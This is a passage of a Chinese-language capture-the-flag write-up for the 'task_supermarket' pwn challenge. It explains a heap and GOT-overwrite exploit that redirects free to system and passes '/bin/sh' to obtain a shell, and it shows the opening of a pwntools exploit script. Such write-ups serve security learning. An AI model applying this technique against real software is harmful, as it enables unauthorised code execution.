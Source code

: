 接着依然通过修改`payload1`将`puts_got`替换为`free_got`,执行完毕后并修改`'b'`就可以修改`free.got.plt`的地址为`system`的地址

	payload2 = 'A'*7+'\x00' + p32(0) + p32(0x21) + 'b'+3*'\x00' + p32(0)
	payload2 += p32(0) + p32(0) + p32(0x10) + p32(0x40) + p32(free_got)
	change_desc('a', 0x100, payload2)
	change_desc('b', 0x40, p32(system_addr))

![pwn]({{ '/images/201805/task_supermarket_2_4.png' | prepend: site.baseurl }})

成功修改为`system`地址，此时我们调用`free`就相当于调用`system`,在`delete`函数会依次调用`free`，所以通过`add_com`来构造`system`的参数，创建`name`和`description`都为`'/bin/sh\x00'`,在执行`delete`时就会成功返回`shell`

完整的脚本如下：

<pre>#!/usr/bin/python

from pwn import *

# for debug
#p = process('./task_supermarket')
#elf = ELF('./task_supermarket')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
gdb.attach(proc.pidof(p)[0], gdbscript="b * 0x08048FF7\nc\n")
context.log_level = 'debug'

def add_com(name, price, desc_size, desc):
  p.recvuntil('your choice>> ')
  p.send('1\n')
  p.recvuntil('name:')
  p.send(name+'\n')
  p.recvuntil('price:')
  p.send(str(price)+'\n')
  p.recvuntil('descrip_size:')
  p.send(str(desc_size)+'\n')
  p.recvuntil('description:')
  p.send(desc+'\n')

def change_desc(name, desc_size, desc):
  p.recvuntil('your choice>> ')
  p.send('5\n')
  p.recvuntil('name:')
  p.send(name+'\n')
  p.recvuntil('descrip_size:')
  p.send(str(desc_size)+'\n')
  p.recvuntil('description:')
  p.send(desc+'\n')

def list_com():
  p.recvuntil('your choice>> ')
  p.send('3\n')

def del_com(name):
  p.recvuntil('your choice>> ')
  p.send('2\n')
  p.recvuntil('name:')
  p.send(name+'\n')
